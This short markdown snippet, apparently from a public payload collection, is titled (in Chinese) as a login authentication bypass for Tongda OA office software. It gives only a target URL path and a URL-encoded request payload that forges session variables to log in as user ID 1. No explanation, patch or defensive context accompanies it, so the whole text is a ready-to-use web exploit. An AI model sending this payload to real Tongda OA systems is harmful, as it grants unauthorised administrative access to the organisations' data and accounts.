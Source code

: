 ## 通达OA登录认证绕过

> URL

```
/module/retrieve_pwd/header.inc.php?_ZQA_ID=3fb5b8eadff9c793
```

> Payload
```
SESSION%5BLOGIN_THEME%5D=15&_SESSION%5BLOGIN_USER_ID%5D=1&SESSION%5BLOGIN_UD%5D=1
```

